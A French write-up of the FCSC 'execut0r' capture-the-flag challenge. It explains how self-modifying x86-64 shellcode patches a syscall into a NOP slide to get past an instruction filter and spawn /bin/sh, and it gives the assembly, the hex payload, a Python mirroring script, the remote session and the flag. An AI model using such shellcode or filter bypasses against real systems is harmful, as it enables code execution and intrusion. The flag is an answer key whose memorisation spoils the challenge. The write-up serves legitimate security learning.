 # Énoncé

Voici un exercice de shellcoding comme on les aime ! [ ou pas :-) ]

SHA256(execut0r) = de551ab323fc4d86cb8567d6839e90162b01a00c7c3ab53703dd99428dc25547.

`nc challenges.france-cybersecurity-challenge.fr 2054`

Note : le binaire à exploiter n'a pas accès à Internet.


# Solution

Pour concocter le shellcode, je me suis beaucoup aidé de :
 - Ce site qui est toujours ultra pratique : https://defuse.ca/online-x86-assembler.htm
 - Un débugger, pour débugger/tester mes shellcodes sur le execut0r local avant de l'envoyer au serveur distant

Comme on le voit dans le script run.py, on ne peut pas utiliser certains types d'instructions qui sont interdites/filtrées !
Il s'agit notamment des `ret` (sachant qu'un `push XXX; ret;` aurait permis de faire l'équivalent d'un `jmp XXX`), de `iret` (retour suite à une interruption), d'interruptions, de syscalls, de jmps et de calls.
Cela est volontairement fait pour nous embêter, c'est difficile d'arriver à exécuter du code arbitraire si tous les moyens d'effectuer des branchements nous sont interdits... Il va donc falloir ruser.

Si on voulait faire un classique syscall `execve('/bin/sh', 0, 0)`, on pourrait exécuter toutes nos instructions (des mov et pop principalement), à part la fameuse instruction `syscall` qui permet de le déclencher !
Donc comment faire pour bypasser ce filtrage ???

Eh bien rien de si sorcier que ça : en inspectant le programme execut0r, on voit que le programme est écrit sur la stack et que celle-ci a les permissions "rwx".
On ne peut certes pas directement insérer une instruction `syscall` dans notre shellcode, par contre rien ne nous empêche d'utiliser les mov, pop, push ou autres...

Comme le shellcode est sur la stack, on peut donc utiliser une instruction du type `mov [rsp+???], $reg` (ou `mov [rbp-???], $reg`) pour aller patcher "at-runtime" notre shellcode afin d'y insérer une instruction que l'on veut... Comme l'instruction syscall !
L'idée serait donc de faire une sorte de self-modifying shellcode, de cette manière :
 - Faire un `mov rcx, 0x909090909090050f` pour charger l'instruction "syscall; nop*6" dans RCX (l'opcode de syscall étant 0x0f05 pour info)
 - Faire un `mov [rsp+???], rcx` pour aller patcher/écrire l'instruction syscall sur notre shellcode.

Reste juste à déterminer l'offset ??? pour que le patch se fasse en plein milieu d'une NOP slide de notre shellcode par exemple.
Pour trouver cet offset, j'ai 1) inséré une NOP slide assez conséquente à la fin de mon shellcode, 2) testé dans un débugger pour voir, par rapport à RSP, quel était l'offset où tombait à peu près cette NOP slide.

--> Finalement j'ai trouvé que la NOP slide tombait environ vers [RSP+136] !

Notons que le programme run.py insère un prologue et un epilogue avant et après notre shellcode, à vrai dire je ne m'en suis guère soucié et le shellcode que je vais faire est assez standalone (= il fonctionne dans tous les cas, qu'il soit exécuté "tout seul" ou avec l'épilogue et le prologue de run.py inséré avant et après).
La seule chose à noter, c'est que le shellcode prologue inséré par run.py reset entre autres RBP à 0 (mais heureusement laisse RSP intact) !
Donc si on doit écrire quelque-chose sur la stack, il faut le faire en passant par RSP et surtout pas par RBP puisqu'il est reset à 0 par le shellcode prologue de run.py !

Ceci étant dit, on peut maintenant écrire notre shellcode ! Outre ce que j'ai expliqué au-dessus, tout le reste est très classique d'un `execve('/bin/sh', 0, 0)`.
Voici le shellcode final :

```
// On push "/bin/sh\0" sur la stack, et on load l'adresse de la string dans RDI
mov rax, 0x0068732f6e69622f
push rax
mov rdi, rsp

// On set les registres comme il faut pour un syscall execve('/bin/sh', 0, 0)
mov rax, 0x3b
mov rsi, 0
mov rdx, 0

// On patche le shellcode écrit sur la stack pour y insérer une instruction syscall
mov rcx, 0x909090909090050f // 0x0f05 = opcode de "syscall"
mov [rsp+136], rcx          // on patche l'instruction dans la NOP slide du shellcode situé sur la stack (on passe par RSP pour ce faire, pas par RBP qui est set à 0 par run.py)


// Le syscall sera écrit/patché par le mov du dessus dans la NOP slide qui suit ! :)
nop * 28
```

En hexa, il nous donne : `48B82F62696E2F736800504889E748C7C03B00000048C7C60000000048C7C20000000048B90F0590909090909048898C248800000090909090909090909090909090909090909090909090909090909090`
Pour qu'il soit accepté par le programme, il ne reste plus qu'à le "palindromer", c'est-à-dire faire en sorte qu'il se lise dans les deux sens... Un peu comme un effet miroir, ou comme le rendre symétrique en fait !
En gros, si notre shellcode est "01 02 03", il faudra qu'on l'envoie comme ça au programme : "01 02 03 03 02 01"

En quelques lignes de Python on peut "miroiriser" notre shellcode, voici le script utilisé :

```
#!/usr/bin/python3

def miroirmiroir(scHex):
    scBytes = bytes.fromhex(scHex)
    scBytesPalindrome = scBytes + scBytes[::-1]
    print(scBytesPalindrome)
    
    scHexPalindrome = bytearray(scBytesPalindrome).hex()
    print(scHexPalindrome)


sc = "48B82F62696E2F736800504889E748C7C03B00000048C7C60000000048C7C20000000048B90F0590909090909048898C248800000090909090909090909090909090909090909090909090909090909090"
miroirmiroir(sc)
```

Evidemment, la partie "miroirisée" de notre shellcode va donner des instructions complètement "junk" qui vont faire planter le programme.
MAIS, comme on aura patché et surtout exécuté notre instruction "syscall" AVANT de tomber sur la partie miroirisée junk... Eh bien on aura ouvert notre shell avant que cette partie soit exécutée !
Donc au final, on n'a pas à se soucier du tout de cette partie, ce qui nous permet de bypasser la contrainte que voulait probablement nous imposer le challmaker :-) (faire des instructions qui s'exécutent de manière cohérente dans les deux sens).

En exécutant le script du-dessus, on obtient : `48b82f62696e2f736800504889e748c7c03b00000048c7c60000000048c7c20000000048b90f0590909090909048898c2488000000909090909090909090909090909090909090909090909090909090909090909090909090909090909090909090909090909090909090909000000088248c8948909090909090050fb94800000000c2c74800000000c6c7480000003bc0c748e78948500068732f6e69622fb848`

Ne reste plus qu'à le copier-coller dans l'entrée du programme "run.py" du serveur distant (nc challenges.france-cybersecurity-challenge.fr 2054) :
```
Enter your shellcode (hex, at most 1024 bytes):
48b82f62696e2f736800504889e748c7c03b00000048c7c60000000048c7c20000000048b90f0590909090909048898c2488000000909090909090909090909090909090909090909090909090909090909090909090909090909090909090909090909090909090909090909000000088248c8948909090909090050fb94800000000c2c74800000000c6c7480000003bc0c748e78948500068732f6e69622fb848
ls
execut0r
flag.txt
run.py
cat flag.txt
FCSC{662c7ce1f85b5bb4a874a9ecddae4ea9b24d5ef0ce72c28df162ee8311b19ec3}
```

Miracle, on a bien reçu notre flag !
Flag : FCSC{662c7ce1f85b5bb4a874a9ecddae4ea9b24d5ef0ce72c28df162ee8311b19ec3}